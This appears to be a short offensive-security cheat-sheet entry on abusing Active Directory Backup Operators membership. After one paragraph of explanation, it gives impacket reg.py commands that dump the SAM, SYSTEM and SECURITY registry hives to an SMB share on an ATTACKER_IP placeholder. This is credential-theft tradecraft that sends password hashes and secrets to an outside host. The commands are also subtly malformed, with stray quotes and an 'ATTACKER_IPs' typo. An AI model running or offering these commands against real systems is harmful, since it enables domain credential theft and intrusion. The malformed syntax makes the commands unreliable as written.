 
**Backup Operators** is a built-in group in Active Directory environments that grants members the ability to back up and restore files, regardless of file permissions. Members of this group can bypass NTFS permissions to perform backup and restore operations on the system.

```bash
reg.py domain/user:password@target save -keyName 'HKLM\SAM' -o '\\ATTACKER_IPs\share'
reg.py domain/user:password@target" save -keyName 'HKLM\SYSTEM' -o '\\ATTACKER_IP\share'
reg.py domain/user:password@target" save -keyName 'HKLM\SECURITY' -o '\\ATTACKER_IP\share'
```


